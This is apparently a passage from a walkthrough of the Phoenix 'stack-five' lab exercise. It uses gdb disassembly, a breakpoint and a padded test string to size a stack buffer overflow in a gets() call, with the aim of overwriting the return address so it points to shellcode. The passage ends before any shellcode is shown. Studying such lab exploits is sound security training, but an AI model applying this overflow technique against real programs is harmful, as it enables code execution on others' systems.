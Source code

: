 There are lots of shellcodes examples [here](https://shell-storm.org/shellcode/index.html). Before entering the shellcode we need to understand the size we need to fill inside the stack in order to overwrite the return address with an address to our shellcode.  

We will allocate the buffer with 128 bytes and check the lowest address and the address of the return address and then calculate how many bytes we need to fill.  

We first need to check what is the return address (not the address of it), and we found that it is `0x4005c7`:

```gdb
user@phoenix-amd64:/opt/phoenix/amd64$ gdb ./stack-five

# Finding the return address = 0x4005c7, after the call to start_level
(gdb) disassemble main
Dump of assembler code for function main:
   0x00000000004005a4 <+0>:     push   rbp
   0x00000000004005a5 <+1>:     mov    rbp,rsp
   0x00000000004005a8 <+4>:     sub    rsp,0x10
   0x00000000004005ac <+8>:     mov    DWORD PTR [rbp-0x4],edi
   0x00000000004005af <+11>:    mov    QWORD PTR [rbp-0x10],rsi
   0x00000000004005b3 <+15>:    mov    edi,0x400620
   0x00000000004005b8 <+20>:    call   0x400400 <puts@plt>
   0x00000000004005bd <+25>:    mov    eax,0x0
   0x00000000004005c2 <+30>:    call   0x40058d <start_level>
   0x00000000004005c7 <+35>:    mov    eax,0x0
   0x00000000004005cc <+40>:    leave  
   0x00000000004005cd <+41>:    ret    
End of assembler dump.
```

We will go to the `start_level` function and set breakpoint after (`0x4005a1`) the `gets` function and:  
```gdb
(gdb) disassemble start_level
Dump of assembler code for function start_level:
   0x000000000040058d <+0>:     push   rbp
   0x000000000040058e <+1>:     mov    rbp,rsp
   0x0000000000400591 <+4>:     add    rsp,0xffffffffffffff80
   0x0000000000400595 <+8>:     lea    rax,[rbp-0x80]
   0x0000000000400599 <+12>:    mov    rdi,rax
   0x000000000040059c <+15>:    call   0x4003f0 <gets@plt>
   0x00000000004005a1 <+20>:    nop
   0x00000000004005a2 <+21>:    leave  
   0x00000000004005a3 <+22>:    ret

(gdb) b *0x4005a1
Breakpoint 1 at 0x4005a1
```

We will run the program with a 128 bytes string:  
```gdb
(gdb) run <<< $(python -c 'print "A" + "B"*126 + "C"')
0x00007fffffffe590│+0x0000: "ABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"    ← $rax, $rsp, $r8
0x00007fffffffe598│+0x0008: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0x00007fffffffe5a0│+0x0010: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0x00007fffffffe5a8│+0x0018: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0x00007fffffffe5b0│+0x0020: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0x00007fffffffe5b8│+0x0028: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0x00007fffffffe5c0│+0x0030: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0x00007fffffffe5c8│+0x0038: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400594 <start_level+7>  or     BYTE PTR [rax-0x73], 0x45
     0x400598 <start_level+11> or     BYTE PTR [rax-0x77], 0xc7
     0x40059c <start_level+15> call   0x4003f0 <gets@plt>
```